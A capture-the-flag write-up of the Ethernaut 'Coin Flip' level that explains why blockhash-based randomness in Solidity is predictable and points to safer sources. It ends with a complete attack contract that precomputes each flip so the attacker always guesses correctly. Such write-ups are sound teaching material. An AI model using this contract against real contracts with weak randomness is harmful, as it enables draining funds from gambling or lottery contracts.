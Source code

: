 # Ethernaut 03: Coin Flip - Insecure Randomness

Learn about random numbers in Solidity

## The Task Intro

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have contr``ol over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

## The Task Code

The Coinflip task is a smart contract that has a flip function. It retrieves the blockhash of the block before, casts it to uint256 and devides it by a static huge factor, so the number might be 1.

## The Solution

There is no randomness because another contract can make the same calculation and therefore predict the outcome and always win.

```apache
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract coinFlipAttack {
    CoinFlip cf;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor (CoinFlip _cfa){
       cf = _cfa;
    }

    function attack()external{
        uint256 blockValue = uint256(blockhash(block.number -1));
        uint256 coinFlip = blockValue/FACTOR;

        bool result = coinFlip ==1 ? true: false;
        cf.flip(result);
    }
}
```

